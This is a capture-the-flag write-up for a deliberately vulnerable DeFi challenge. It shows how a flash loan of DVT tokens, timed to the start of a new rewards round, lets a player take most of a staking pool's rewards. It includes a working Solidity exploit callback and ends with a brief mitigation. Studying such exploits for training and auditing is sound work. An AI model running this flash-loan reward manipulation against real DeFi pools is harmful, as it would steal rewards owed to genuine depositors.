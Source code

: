 > There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

> Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

> You don’t have any DVT tokens.
> But in the upcoming round, you must claim most rewards for yourself.

> By the way, rumours say a new pool has just launched.
> Isn’t it offering flash loans of DVT tokens?

## The plan

This challenge is more convoluted: 5 contracts, with 3 tokens and 2 pools.

Still, the intro gives a pretty clear plan:

- loan the maximum amount of `DamnValuableToken` from `FlashLoanerPool`
- deposit these `DamnValuableToken` in the `TheRewarderPool`
- withdraw from the `TheRewarderPool`
- payback the `FlashLoanerPool`

In the meantime, the pool will have sent rewards back while it doesn't hold any liquity as counterpart.

## Timing the loan

If the next round has started, depositing will automatically trigger the rewarding process:

```solidity
function deposit(uint256 amount) external {
    if (amount == 0) { /*...*/ }

    accountingToken.mint(msg.sender, amount);
    distributeRewards(); // <--

    SafeTransferLib.safeTransferFrom(/*...*/);
}
```

And the next round starts when:

```solidity
uint256 private constant REWARDS_ROUND_MIN_DURATION = 5 days;

function isNewRewardsRound() public view returns (bool) {
    return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
}
```

In reality, waiting for the correct time is enough:

```js
await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
```

## Implementation

```solidity
function receiveFlashLoan(uint256 amount) external {
    // move the lent tokens to the rewarder pool
    _liquidityToken.approve(address(_rewarderPool), amount);
    _rewarderPool.deposit(amount);

    // if timed correctly, the rewarder pool sent the rewards

    // payback the loan
    _rewarderPool.withdraw(amount);
    _liquidityToken.transfer(address(_flashLoanPool), amount);

    // transfer the rewards to the player
    uint256 _rewards = _rewardToken.balanceOf(address(this));
    _rewardToken.transfer(_player, _rewards);
}
```

## Mitigations

The liquidity tokens could be locked for a period of time after a deposit.
